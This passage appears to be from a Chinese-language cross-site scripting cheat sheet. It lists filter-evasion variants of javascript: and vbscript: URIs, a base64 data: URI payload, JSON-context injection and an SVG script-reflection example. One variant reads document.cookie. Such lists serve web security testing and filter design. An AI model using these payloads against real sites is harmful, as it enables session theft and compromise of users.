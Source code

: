     javascript&#00058;alert(1)
    javaSCRIPT&colon;alert(1)
    jaVaScRipT:alert(1)
    javas&Tab;cript:\u0061lert(1);
    javascript:\u0061lert&#x28;1&#x29
    javascript&#x3A;alert&lpar;document&period;cookie&rpar;
[/code]



**vbscript变种：**

[code]

    vbscript:alert(1);
    vbscript&#00058;alert(1);
    vbscr&Tab;ipt:alert(1)"
[/code]

**Data URl:**

[code]

    data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
[/code]



**Json上下文：**  
在encodeURIComponent中插入JavaScript代码，很容易触发XSS并在所有的浏览器中执行

  
**输入反射：**

encodeURIComponent('userinput')  
例如：-alert(1)-  
-prompt(1)-  
-confirm(1)-  
执行结果就是

[code]

    encodeURIComponent('-alert(1)-')
[/code]

**svg标签中的输入反射：**

svg中的用户输入有点不同，HTML5的到来使得svg的使用得到戏剧性的增加。使用它也引发了很多问题，试想如下场景，你的输入被反射到
<svg>里面的<script>标签中

[code]

    <svg><script>varmyvar=”YourInput”;</script></svg>
[/code]

当我们提交如下输入时：www.site.com/test.php?var=text”;alert(1)//

有时候双引号会被编码，但它仍是有效的javascript语法并会得到执行

[code]

    <svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
[/code]
